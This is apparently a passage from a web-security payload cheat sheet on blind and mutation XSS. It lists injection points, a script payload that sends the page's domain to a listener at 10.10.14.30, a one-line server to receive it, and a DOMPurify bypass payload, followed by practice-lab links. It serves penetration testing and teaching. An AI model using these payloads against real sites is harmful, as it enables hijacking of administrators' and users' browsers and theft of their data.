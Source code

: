 ### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

### Tips

You can use a [Data grabber for XSS](#data-grabber-for-xss) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```ps1
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

Use browsers quirks to recreate some HTML tags.

**Example**: Mutated XSS from Masato Kinugawa, used against [cure53/DOMPurify](https://github.com/cure53/DOMPurify) component on Google Search. 

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

Technical blogposts available at

* https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/
* https://research.securitum.com/dompurify-bypass-using-mxss/


## Labs

* [PortSwigger Labs for XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting)
* [Root Me - XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
* [Root Me - XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)
* [Root Me - XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
* [Root Me - XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)
* [Root Me - XSS - Stored - Filter Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
* [Root Me - XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
* [Root Me - XSS DOM Based - AngularJS](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)
* [Root Me - XSS DOM Based - Eval](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)
* [Root Me - XSS DOM Based - Filters Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
* [Root Me - XSS - DOM Based](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
* [Root Me - Self XSS - DOM Secrets](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)